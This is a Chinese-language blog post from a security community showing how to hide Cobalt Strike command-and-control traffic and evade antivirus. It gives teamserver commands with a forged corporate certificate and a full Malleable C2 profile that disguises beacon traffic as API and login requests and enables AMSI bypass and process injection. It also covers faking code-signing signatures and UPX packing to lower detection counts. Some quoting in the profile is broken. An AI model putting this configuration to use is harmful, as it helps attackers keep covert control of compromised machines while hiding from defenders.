# Cobalt Strike 流量伪装与免杀小技巧-先知社区

> **来源**: https://xz.aliyun.com/news/17590  
> **文章ID**: 17590

---

## Cobalt Strike 流量伪装

之前接触Cobalt Strike并不多，多是使用msf或者平台化的viper，这次算是初识

### 客户端 AND 服务端

Cobalt Strike采用的是c/s架构，客户机的启动强制要求链接服务器，一般从网上下载的cs破解版本就包含了这两者

以root用户拉起teamserver

```
bash teamserver 192.168.56.1 123456
```

不知道为什么，server在我本地电脑上拉起的速度很慢，完成后为这样



没忍住 还是跑了一个汉化包，就简单使用上来说与viper很像，或者说本就师出同源，先监听后生成/或者钓鱼木马



### 基础流量修改

这里进入正题，写一写课上说的有关cs流量的伪装

#### teamserver相关

在teamserver的启动脚本中主要关注两句话keytool与最后一句启动所调用的java

即

```
keytool -keystore ./cobaltstrike.store \
    -storepass password \
    -keypass password \
    -genkey \
    -keyalg RSA \
    -alias cobaltstrike \
    -dname "CN=*.microsoft.com, OU=Microsoft Corporation, O=Microsoft Corporation, L=Redmond, S=WA, C=US"

AND

java -XX:ParallelGCThreads=4 \
     -Dcobaltstrike.server_port=50050 \
     -Dcobaltstrike.server_bindto=0.0.0.0 \
     -Djavax.net.ssl.keyStore=./cobaltstrike.store \
     -Djavax.net.ssl.keyStorePassword=password \
     -server \
     -XX:+AggressiveHeap \
     -XX:+UseParallelGC \
     -classpath ./cobaltstrike.jar \
     -javaagent:CSAgent.jar=f38eb3d1a335b252b58bc2acde81b542 \
     -Duser.language=en \
     server.TeamServer "$@"
```

第一句话调用了本地的keytool生成了一个名为cobaltstrike.store的密钥，且密钥都是Microsoft，这里就可以自由发挥的做些修改，例如

```
keytool -keystore ./cobaltstrike.store \
    -storepass Yu@N4hEnQ!d0nG! \
    -keypass Yu@N4hEnQ!d0nG! \
    -genkey \
    -keyalg RSA \
    -alias cobaltstrike \
    -dname "CN=*.mihoyo.com, OU=Mihoyo Corporation, O=Mihoyo Corporation, L=Shanghai, S=Shanghai, C=CN"
```

```
❯ keytool -list -v -keystore cobaltstrike.store
输入密钥库口令:  
密钥库类型: PKCS12
密钥库提供方: SUN

您的密钥库包含 1 个条目

别名: cobaltstrike
创建日期: 2024年9月25日
条目类型: PrivateKeyEntry
证书链长度: 1
证书[1]:
所有者: CN=*.mihoyo.com, OU=Mihoyo Corporation, O=Mihoyo Corporation, L=Shanghai, ST=Shanghai, C=CN
发布者: CN=*.mihoyo.com, OU=Mihoyo Corporation, O=Mihoyo Corporation, L=Shanghai, ST=Shanghai, C=CN
序列号: 1d29dc625556b541
生效时间: Wed Sep 25 15:33:00 CST 2024, 失效时间: Tue Dec 24 15:33:00 CST 2024
证书指纹:
         SHA1: EA:03:E8:64:1C:9F:4C:55:E3:E0:E6:99:E6:C3:CA:B8:28:6F:ED:05
         SHA256: 6A:98:8B:D5:6C:FF:1D:A0:A0:B0:F2:28:F9:81:ED:1F:F0:6C:52:8E:47:5D:1D:B2:D4:87:34:71:11:B7:4A:F7
签名算法名称: SHA256withRSA
主体公共密钥算法: 2048 位 RSA 密钥
版本: 3
```

第二段是调用java拉起了团队服务器的镜像 所调用的命令是

```
# Start the team server
java -XX:ParallelGCThreads=4 \
     -Dcobaltstrike.server_port=50050 \
     -Dcobaltstrike.server_bindto=0.0.0.0 \
     -Djavax.net.ssl.keyStore=./cobaltstrike.store \
     -Djavax.net.ssl.keyStorePassword=Yu@N4hEnQ!d0nG!  \
     -server \
     -XX:+AggressiveHeap \
     -XX:+UseParallelGC \
     -classpath ./cobaltstrike.jar \
     -javaagent:CSAgent.jar=f38eb3d1a335b252b58bc2acde81b542 \
     -Duser.language=en \
     server.TeamServer "$@"
```

主要是对50050进行修改，这个端口太明显了，下面是绑定的ip，默认是绑定所有的ip

```
-Dcobaltstrike.server_port=65522 
```

### profile修改

在Cobalt Strike中profile用于定义攻击流量的样式

随意拉取了一个Malleable-C2-Profiles中的模板修改，如果要验证profile的正确性，在4.7版本前使用的是c2lint，之后集成到了团队服务器镜像

```
bash c2lint FILE
or
bash TeamServerImage c2lint FILE
```

profile的文件结构还算好看，基本由

```
name{
    内容
    name{
        内容
    }
}
```

的结构组成，这次训练的一共提到了以下的模块

```
## 全局模块
## 没有大括号包裹，直接位于文件最底层，作为文件的最基础配置，存放有useragent，smb管道，ssh管道等等配置
set sample_name "pursue.profile";

set useragent "Mozilla/5.0 (Macintosh; Intel Mac OS X x.y; rv:42.0)Gecko/20100101 Firefox/42.0";

## SSL密钥
https-certificate {
    set keystore "FILE.store";
    set password "PASSWORD";
}

## code sign cert.
code-signer {
    set keystore "FILE.jks";
    set password "PASSWORD";
    set alias "name";
}

## http响应包
http-config{
    header "server" "apache";# 头文件
    set trust_x_forwarded_for "false"; # 重定向开关
    set block_useragents "curl*,lynx*,wget*"; # 黑名单ua头
}

## http get请求的配置
http-get{
    set url "/get /phpinfo"; # 请求内容
    
    # 客户端配置
    client{
        # 请求头修改
        header "Host" "114514.com";
        # 源数据，加密配置
        metadata{
            #base64; # 常规base64编码
            base64url; # 安全的base64编码
            #mask; # 随机异或
            prepend "1919810"; # 开头附加字符串
            #append “.php” #结尾追加后缀
            
            parameter "__sltion"; # 存放在 url 参数中
            #header "Cookie"; # 存放在 http 请求头中
            
            #uri-append; # 附加在 url 后面，不能使用base64
            #print; # 存放在 http body 中

            
        }
    parameter "id" "0"; # 额外参数
}


## 服务端

server{
    # 输出响应
    output{
        # 编码
        #netbios;
         netbiosu;
         #base64;
         #base64url;
         #mask;
     
         prepend "Do you like what you see"; # 修改响应数据，需要注意的是响应数据是颠倒的，后续会演示
     
         append "<script type="text/javascript">
";
     
         print;
    }
}

## http-post 请求配置，与get基本无异，区别在client的编写

http-post{
    client{
        output{
            base64url;
            parameter "__tecion"; # 设置 url 参数
        }
        
        id{
            base64url;
            parameter "id"; # 位于url参数
            #header "Cookie"; # 位于请求头
        }
    }
}

## 不同架构的请求链接
http-stager{
     set url_x86 "/114514";
     set url_x64 "/1919810";
}

```

了解这些基本就能做一些简单的编写了

#### 基本配置

最后我配置完成的是这样的

```
https-certificate {
    set  keystore "./cobaltstrike.store";
    set  password "Yu@N4hEnQ!d0nG!"; ## 不做全新创建，调用默认证书
}

set sleeptime "5000"; # 睡眠时间
set jitter "30"; #睡眠抖动
set pipename "interprocess_##";
set useragent "Mozilla/5.0 (Macintosh; Intel Mac OS X x.y; rv:42.0)Gecko/20100101 Firefox/42.0";


http-get {
    set uri "/v2/api/heartbeat /v2/api/userinfo"; #伪装成一个api请求
    client {

        metadata {
            base64url;
            parameter "code"; ## 在使用url参数时，最好使用base64url，base64的选项会导致错误
        }

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        header "Accept-Encoding" "gzip, deflate";
    }

    server {
        header "Server" "nginx";
        
        output{
            base64url;
            prepend ""password": "";
            prepend ""status": "active",";
            prepend ""roles": ["user", "admin"],";
            prepend ""last_login": "2024-09-26T08:22:45Z",";
            prepend ""created_at": "2023-01-01T12:34:56Z",";
            prepend "},";
            prepend ""country": "USA"";
            prepend ""zip_code": "90210",";
            prepend ""state": "CA",";
            prepend ""city": "Somewhere",";
            prepend ""street": "123 Main St",";
            prepend ""address": {";
            prepend ""phone": "+1-555-555-5555",";
            prepend ""profile_picture": "https://baidu.com/image.jpg",";
            prepend ""last_name": "Doe",";
            prepend ""first_name": "John",";
            prepend ""email": "john.doe@example.com",";
            prepend ""username": "john_doe",";
            prepend "{"id": 12345,";

            append ""}";
            print;

        }
    }
}

http-post {
    set uri "/api/login"; # login伪装
    client {
        parameter "pass" "d3244c4707";
        parameter "login" "1";
        parameter "start" "0";
        header "Content-Type" "application/x-www-form-urlencoded;charset=utf-8";

        id {
            base64;
            prepend "MTE0NTE0MTkxOTgxMA";
            header "Cookie";
        }

        output{
            base64;
            prepend "{"token": "";
            append ""}";
            print;
        }
    }

    server {
        header "Server" "nginx";

        output {
            prepend "{"status": "200", "data": ";
            append "}";
            print;
        }
        
    }
}

## 后渗透
post-ex{
    #自定义注入的进程
    set spawnto_x86 "%windir%\syswow64\reg.exe";
    set spawnto_x64 "%windir%\sysnative\reg.exe";

    #是否混淆
    set obfuscate "true";

    # 绕过AMSI(什么是amsi https://learn.microsoft.com/zh-cn/defender-endpoint/amsi-on-mdav)
     set amsi_disable "true";

    # 允许多线程
    set thread_hint "ntdll.dll!RtlUserThreadStart";
}

## 签名证书 需要手动生成
code-signer {
 set keystore "./keystore.jks";
 set password "123456";
 set alias "google";
}
# keytool -genkey -alias google -keyalg RSA -validity 36500 -keystore
# keystore.store
# keytool -importkeystore -srckeystore keystore.store -destkeystore
# keystore.store -deststoretype pkcs12
# keytool -v -importkeystore -srckeystore keystore.store -srcstoretype
# PKCS12 -destkeystore keystore.jks -deststoretype JKS
```

分别将get请求与post请求伪装为api请求与登入请求，编写的难度其实不高，遇到不了解的函数可以看

<https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm> 这个文档，其中涵盖了应该是所有的函数

### 上线测试





上线成功 打开Wireshark看看流量是否预期



混淆的http



https通信

免杀小技巧

### virtest



可以快速确定杀软识别的特征点，方便手动修改，但经常修改完软件就爆炸，或者直接不启动，算是上古神器了

#### 签名伪造

很多厂商在推出软件后都会在自己的软件上捆上签名，如果能获得或者伪造，也能bypass一些杀软









不能说完全没用，微步13变11，virustotal 58变53，而且虽然能显示签名但其实假的终究是假的



后续有机会继续研究，如果是单纯签名各家的签名效果都不太一样，或许在钓鱼方面能有奇效

这里我使用的工具：<https://github.com/chroblert/JSigThief>

### 加壳

也是很old school的方法了，但依旧常见

#### upx 经典中的经典

加壳也简单

```
upx -9 -o testTXUPX.exe testTX.exe
```

但是单纯的壳依旧不好用了，以下的是加了签名与默认upx的沙箱跑分

